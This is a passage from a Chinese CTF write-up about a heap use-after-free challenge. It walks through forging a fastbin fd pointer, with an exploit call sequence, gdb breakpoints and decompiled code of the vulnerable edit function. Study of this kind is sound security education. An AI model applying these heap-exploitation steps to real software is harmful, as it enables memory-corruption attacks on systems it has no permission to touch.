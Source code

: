

## 详细利用步骤

### <a class="reference-link" name="%E4%BC%AA%E9%80%A0%20fd"></a>伪造 fd

这里大体的步骤是 **create -&gt; delete -&gt; edit -&gt; create**

在 exp 中，可以用如下的表示：

```
create()
dele()
edit(p64(0x602098))
create()
```

这里用 gdb 动态调试一下，**在 create 函数和 delete 函数处下断点**

```
pwndbg&gt; b *0x4008B2
Breakpoint 1 at 0x4008b2
pwndbg&gt; b *0x40094A
Breakpoint 2 at 0x40094a
```

run 运行，在第一个 create 中可以看到创建好的堆，以及 buf （0x6020C8）的值，**也就是 chunk 的 memory 的位置**。

[![](https://i.imgur.com/MLthVX8.png)](https://i.imgur.com/MLthVX8.png)

c 继续运行，在 delete 函数里执行完 free 操作之后，**发现这个 chunk 已经挂在了 fastbins 上了**

[![](https://i.imgur.com/S2kqNOl.png)](https://i.imgur.com/S2kqNOl.png)

接下来调用 edit 方法来填充被 free 掉的 chunk 的 fd 的位置

[![](https://i.imgur.com/wSMvKLI.png)](https://i.imgur.com/wSMvKLI.png)

为什么会被填充到上一个 chunk 的 memory 区域呢？因为在上一步的 free 操作中，作为指针的 buf 没有被置空，**还是指向了 0x603010 这个区域，在 edit 函数里调用了 read 函数对 buf 指向的区域进行填充。**

在 IDA 中可以看的很清楚：

```
ssize_t sub_4008E1()        //edit
`{`
  ssize_t result; // rax

  printf("Content? ");
  result = read(0, buf, 0x40uLL);        //写入数据到 buf 的指针处
  qword_6020A8 = 1LL;
  return result;
`}`
```

我们把要跳转的地址填进去，**这里选择 0x602098 这个位置作为 fd 的值**

[![](https://i.imgur.com/NzQeEMG.png)](https://i.imgur.com/NzQeEMG.png)
